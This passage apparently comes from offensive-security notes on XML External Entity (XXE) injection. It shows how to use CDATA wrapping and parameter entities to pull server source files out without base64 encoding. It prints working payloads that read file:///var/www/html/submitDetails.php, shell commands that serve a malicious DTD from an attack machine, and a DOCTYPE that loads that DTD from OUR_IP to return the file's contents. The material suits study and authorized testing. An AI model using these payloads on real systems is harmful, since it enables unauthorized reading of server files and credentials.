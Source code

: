 ```xml
<tel></tel>
<email>&a10;</email>
<message></message>
</root>

```

### CDATA

With php files we can avoid breaking it by using base64 but for other types of files we need to use CDATA like `<![CDATA[ FILE_CONTENT ]]>` For example:

```
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

Then we can refer the **\&joined;** entity. However this **will not work** since XML prevents joining of internal and external entity.

**Better Way:**

Utilize **XML Parameter Entities** (special entity starts with % and used only in DTD) If we reference them from an external source then all of them would be considered external and joined like:

```xml
<!ENTITY joined "%begin;%file;%end;">
```

Host on attack machine:

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

Now we can reference the xxe.dtd and use **\&joined;** Example:

```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

This way no need to base64 encode it.&#x20;
